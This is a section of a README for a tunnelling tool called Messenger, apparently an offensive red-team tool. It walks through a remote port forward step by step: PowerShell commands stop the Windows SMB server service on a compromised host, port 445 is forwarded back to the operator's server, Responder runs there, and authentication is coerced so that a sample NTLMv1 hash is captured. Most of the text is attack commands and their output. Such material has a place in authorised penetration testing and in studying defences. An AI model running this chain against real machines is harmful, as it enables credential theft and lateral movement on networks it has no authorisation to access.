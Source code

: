 
### Remote Port Forwards

Messenger supports remote port forwards. A service hosted externally can be bridged in and hosted on the same computer as the Messenger client. Although reverse forwards do not require root/administrator access, firewall manipulation and binding to privileged ports typically do. A common example of this functionality is forwarding [Responder](https://github.com/lgandx/Responder)'s SMB capture server onto a compromised Windows host.
1. By default, TCP/445 is in use by the `System` process (PID: 4). In order to start a remote port forwarder on port 445, we first need to [unbind the server service](https://posts.specterops.io/relay-your-heart-away-an-opsec-conscious-approach-to-445-takeover-1c9b4666c8ac). This will require administrator privileges.
```powershell
Set-Service -ServiceName LanmanServer -StartupType Disabled
Stop-Service -ServiceName LanmanServer
Stop-Service -ServiceName srv2
Stop-Service -ServiceName srvnet
```
2. Verify the SMB service is no longer listening
```
> netstat -ano | findstr 445
```
3. Next, start a Messenger client with a remote forward for TCP port 445. This will start a server bound to all interfaces (0.0.0.0) on TCP/445 on the Messenger client host. Traffic from this forwarder will be sent to 127.0.0.1:445 on the Messenger server after the forward is approved.
```
> python3.exe messenger-client 192.168.1.100:8080 ZDXgoqyVXqDpJyBMJt 0.0.0.0:445:127.0.0.1:445
```
4. After the Messenger client connects, interact with the messenger and enable the remote forward from the server side. If not, the following message will appear in the Messenger server console:
```
[!] Messenger wtwNJsfYRJ has no Remote Port Forwarder configured for 127.0.0.1:445, denying forward!
```

```
[+] WebSocket Messenger `wtwNJsfYRJ` is now connected.
(messenger)~# wtwNJsfYRJ
(wtwNJsfYRJ)~# remote 445
[*] Messenger KacLHgjlol now forwarding (*:*) -> (127.0.0.1:445).
```
5. Start Responder and bind to the loopback interface on the Messenger server:
```
# python3 Responder.py -I lo
```
6. Use a coercion technique or other method to force authentication back to the Messenger client host. As a simple proof of concept, open an Explorer window and enter `\\127.0.0.1\C$` in the folder path. If done correctly, Responder should have captured the forwarded authentication.
```
[SMB] NTLMv1-SSP Client   : 127.0.0.1
[SMB] NTLMv1-SSP Username : BORGAR\kclark
[SMB] NTLMv1-SSP Hash     : kclark::BORGAR:DA0D86D275019B9300000000000000000000000000000000:4E975DA5F409E4475F57BFCC28BBB3BF32F7FE6C29603B08:b26d7ecc63011faa
```